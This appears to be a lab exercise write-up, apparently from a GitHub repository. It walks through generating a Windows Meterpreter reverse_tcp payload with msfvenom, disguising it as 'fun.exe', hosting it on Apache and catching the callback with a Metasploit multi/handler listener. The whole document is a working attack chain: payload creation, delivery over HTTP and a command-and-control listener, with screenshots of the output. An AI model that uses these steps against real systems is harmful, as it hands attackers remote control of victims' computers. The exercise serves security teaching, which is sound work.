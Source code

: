 ```bash

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="502" height="218" alt="image" src="https://github.com/user-attachments/assets/542716ec-f7f4-4627-b8f7-c2db05845e18" />





Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="629" height="111" alt="image" src="https://github.com/user-attachments/assets/cbf7b67d-94db-41b6-96ea-accc115a080d" />









copy the fun.exe into the apache ```/var/www/html ```folder



Start apache server ```sudo systemctl apache2 start``` 



Check the status of apache2 ```sudo apache2 status```


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="523" height="462" alt="image" src="https://github.com/user-attachments/assets/cb1612c9-8677-401b-aa01-4fa0676f55e9" />

<img width="680" height="155" alt="image" src="https://github.com/user-attachments/assets/99ce0211-fdc8-4f54-82a4-92fef4bc76a5" />

<img width="514" height="437" alt="image" src="https://github.com/user-attachments/assets/c0d4abe1-4ff6-4081-aa54-7c61de2ec4b0" />





On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

<img width="561" height="623" alt="image" src="https://github.com/user-attachments/assets/10a0196d-0530-4683-bcdb-e9c868945b11" />
